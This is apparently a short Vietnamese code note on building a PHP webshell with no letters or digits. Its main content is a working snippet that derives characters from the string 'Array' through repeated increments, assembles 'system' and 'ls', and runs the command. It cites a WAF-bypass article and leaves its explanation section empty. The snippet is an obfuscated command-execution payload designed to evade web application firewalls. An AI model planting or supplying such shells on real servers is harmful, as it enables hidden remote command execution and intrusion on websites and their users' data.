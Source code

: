 # PHP webshell with no alphanumeric

Mục tiêu là tạo ra hàm system('lsls') với không kí tự chữ cái nàonào
'''php
<?php 
$_=[];
$_=@"$_";
$_=$_[3];
$___="";
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; //s
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;//y
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;//s
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;//t
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;//e
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;//m
$___.=$__;

$____="";
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;//l
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; //s
$____.=$__;

$_=$____;
$___($_);
?>
'''

- Tạo ra webshell bằng cách cộng kí tự và tạo ra chuỗi
- Giải thích cơ chế: 
- Tài liệu tham khảo: [https://securityonline.info/bypass-waf-php-webshell-without-numbers-letters/](https://securityonline.info/bypass-waf-php-webshell-without-numbers-letters/)